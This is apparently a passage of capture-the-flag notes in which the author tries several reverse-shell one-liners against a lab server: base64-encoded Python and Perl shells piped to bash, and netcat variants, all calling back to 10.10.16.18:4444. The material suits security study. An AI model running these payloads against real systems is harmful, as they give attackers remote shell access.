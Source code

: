   ```bash
  echo ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNi4xOCI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc= | base64 -d | bash

  ```

- it worked, but python doesn't seem to be installed, so the shell failed...

- need to find something
  ```bash

  which ncat; which nc; which socat; which perl; which ruby; which awk

  /usr/bin/nc
  /usr/bin/perl
  /usr/bin/awk

  ```

- okay so above is on the server
- trying out nc
  ```bash

  nc -e /bin/bash 10.10.16.18 4444 

  ```
- says invalid option, but gives me the usage:
  ```bash

  usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]<br>	 &nbsp;[-m minttl] [-O length] [-P proxy_username] [-p source_port]<br>	 &nbsp;[-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]<br>	 &nbsp;[-X proxy_protocol] [-x proxy_address[:port]] 	 &nbsp;[destination] [port]<br>

  ```
- This?
  ```bash
  /bin/bash | nc 10.10.16.18 4444
  ```

- Yes! After I encoded that and sent it over via burp, I got my... nope didn't work!

- Perl???
  ```bash

  perl -e 'use Socket;$i="10.10.16.18";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

  ```

  ```bash

  echo ICBwZXJsIC1lICd1c2UgU29ja2V0OyRpPSIxMC4xMC4xNi4xOCI7JHA9NDQ0NDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn | base64 -d | bash

  ```
